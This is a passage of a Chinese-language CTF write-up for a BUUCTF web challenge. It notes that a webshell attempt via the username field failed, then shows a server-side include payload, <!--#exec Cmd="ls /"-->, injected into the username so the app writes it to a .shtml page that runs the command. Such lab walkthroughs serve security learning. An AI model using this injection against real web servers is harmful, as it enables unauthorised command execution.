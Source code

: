 尝试利用`username`来向目标文件写入一句话木马,然后按照提示的路径访问并执行命令, 但是没有成功

<img src="/images/buuctf-web2/image-20221023182531101.png" alt="image-20221023182531101" style="zoom:67%;" />

**新知识点: `shtml`文件可以执行系统命令, 格式为:**

```
<!--#exec Cmd="命令"-->
```

那么:

```
username=<!--#exec Cmd="ls /"-->&password=RhPd
返回路径:public/ee9c0aaa3117e3ddba01d553acd4d3bb279b6ba0.shtml
```

访问这个路径,成功回显了执行结果:

<img src="/images/buuctf-web2/image-20221023183046479.png" alt="image-20221023183046479" style="zoom:67%;" />
